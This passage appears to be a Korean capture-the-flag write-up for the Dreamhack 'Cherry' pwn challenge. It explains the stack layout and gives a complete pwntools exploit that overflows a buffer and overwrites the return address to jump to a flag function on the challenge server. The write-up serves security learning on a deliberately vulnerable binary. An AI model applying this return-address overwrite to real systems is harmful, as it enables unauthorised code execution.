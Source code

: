 - `fruit` 문자열은 `rbp - 0x12` 에 존재하고, `rbp` 에는 Stack Frame Pointer, `rbp + 0x8` 에는 Return Address가 존재한다.
- Return Address를 `flag` 의 주소로 설정한다.

```jsx
payload = b'A'*0x12 + b'B'*0x8 + p64(flag)
p.sendafter(b'cherry?: ', payload)
```

- 전체 익스플로잇 코드는 다음과 같다.

```jsx
from pwn import *

context.log_level = 'debug'

p = remote('host3.dreamhack.games', 21784)
e = ELF('./chall')

flag = e.symbols["flag"]

payload = str('cherry').encode() + b'A'*6 + b'\x50'
p.sendafter(b'Menu: ', payload)

payload = b'A'*0x12 + b'B'*0x8 + p64(flag)
p.sendafter(b'cherry?: ', payload)

p.interactive()   
```

![스크린샷 2024-11-27 오후 9.26.22.png](Level1%20Cherry%2062b4ab20146f426783786427bcd5740d/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2024-11-27_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_9.26.22.png)

- 초반은 [RRR](https://www.notion.so/RRR-pwn-_Level1-142bdeddcfd880ca8c67ebed864fc71b?pvs=21)이랑 비슷하네요